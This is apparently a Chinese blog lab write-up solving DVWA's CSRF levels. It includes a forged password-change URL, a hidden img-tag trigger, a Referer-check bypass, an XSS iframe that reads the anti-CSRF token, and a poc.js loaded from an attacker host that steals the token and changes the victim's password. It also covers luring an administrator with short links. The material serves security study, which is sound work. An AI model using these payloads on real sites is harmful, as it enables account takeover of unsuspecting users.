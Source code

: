 ```yaml
---
title: DVWA-CSRF手记
date: 2018-10-19 18:50:20
tags: [DVWA,CSRF]
categories: CSRF
---
```


# DVWA-CSRF手记

---

## LOW

### Source:

![low_001](/img/csrf/dvwa/low_001.png)

### Analysis:	

```
没有进行任何过滤,只检验两次密码是否相同；检验用burpsuite抓包后可构造url,当受害者点击后会把密码修改。
```

`http://192.168.1.110/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change`

构造短网址

![low_002](/img/csrf/dvwa/low_002.png)

诱骗管理员点击链接，需要管理员之前有登录过DVWA,(记得设置为low)并保留有session信息。

![low_003](/img/csrf/dvwa/low_003.png)

密码修改成功。

![low_004](/img/csrf/dvwa/low_004.png)

但是这样做过于明显,管理员又不是傻子。

### Process:

通过img标签的src属性构造url。

`<img src="http://suo.im/50R0sN" border="0" style="display:none;"/>`

将其藏入一个404的html页面中。

![low_005](/img/csrf/dvwa/low_005.png)

将`http://192.168.1.119/hack.html`用短链接构造后`http://suo.im/4LOi71`

![low_006](/img/csrf/dvwa/low_006.png)

![low_007](/img/csrf/dvwa/low_007.png)

查看数据库

![low_008](/img/csrf/dvwa/low_008.png)

密码已经被修改了。

![low_009](/img/csrf/dvwa/low_009.png)

## Medium

### Source:

![medium_001](/img/csrf/dvwa/medumn_001.png)

### Analysis:	

```
$_SERVER['HTTP_REFERER']:获取服务器主机
$_SERVER['HTTP_REFERER']：获取HTTP数据包中的referer参数的值,该参数表示访问到当前页面的前一页面。
eregi — 不区分大小写的正则表达式匹配
在referer中匹配服务器主机,以此来防御csrf
```

如果还按照low的做的话会发生错误。

![medium_002](/img/csrf/dvwa/medium_002.png)

修改Referer值`http://192.168.1.119/192.168.1.110.html`

![medium_003](/img/csrf/dvwa/medium_003.png)

那么方法就出来了，在我服务器目录建一个`192.168.1.110.html`的文件不就好了。内容和hack.html一模一样。

### Process:

将`http://192.168.1.119/192.168.1.110.html`用短链接构造后`http://suo.im/4Ejm74`

![medium_004](/img/csrf/dvwa/medium_004.png)

![medium_005](/img/csrf/dvwa/medium_005.png)

这个实验不算成功,发现了一个dvwa的问题，把cookie中的security改成了impossible,导致实验没法成功。去掉security=impossible再发送。

![medium_006](/img/csrf/dvwa/medium_006.png)

后来发现这是一个dvwa有时会出现的bug,重启下服务有几率解决。

查看数据库

![medium_007](/img/csrf/dvwa/medium_007.png)

密码已经修改了。

## High

### Source:

![high_001](/img/csrf/dvwa/high_001.png)

### Analysis:	

```
这里检查了tocken,tocken是包含在页面中的,所以要先获得管理员的token,这个token每次请求都会变化。
```



![high_002](/img/csrf/dvwa/high_002.png)

像medium那样做会出现一个问题,如何获取token。

本来想利用high级别的存储型xss来注入,但是绕过前端注入代码后发现下次访问依然会对长度限制。

植入xss:

`<iframe src='../csrf' onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`

![hign_003](/img/csrf/dvwa/high_003.png)

### Process:

利用DOM型。

位于攻击者服务器的poc.js文件。

```
var theUrl = 'http://192.168.1.126/vulnerabilities/csrf/';
var pass = '123456';
if (window.XMLHttpRequest){
    xmlhttp=new XMLHttpRequest();
}else{
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}
xmlhttp.withCredentials = true;
var hacked = false;
xmlhttp.onreadystatechange=function(){
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        var token = match[1];
        var new_url = 'http://192.168.1.126/vulnerabilities/csrf/?user_token='+token+'&password_new='+pass+'&password_conf='+pass+'&Change=Change'
        if(!hacked){
            alert('Got token:' + match[1]);
            hacked = true;
            xmlhttp.open("GET", new_url, false );
            xmlhttp.send();
        }
        count++;
    }
};
xmlhttp.open("GET", theUrl, false );
xmlhttp.send();  
```

![high_004](/img/csrf/dvwa/high_004.png)

`http://192.168.1.119/dvwa/vulnerabilities/xss_d/?default=English  #<script src="http://192.168.1.125/poc.js"></script>`

诱骗管理员点击即可,当然可以像之前的一样包装一下。这里就不做了。

## Impossible

### Source:

![im_001](/img/csrf/dvwa/im_001.png)

### Analysis:	

```
Impossible级别的代码利用PDO技术防御SQL注入，而CSRF不仅有token,还需要原密码，简单粗暴。
```

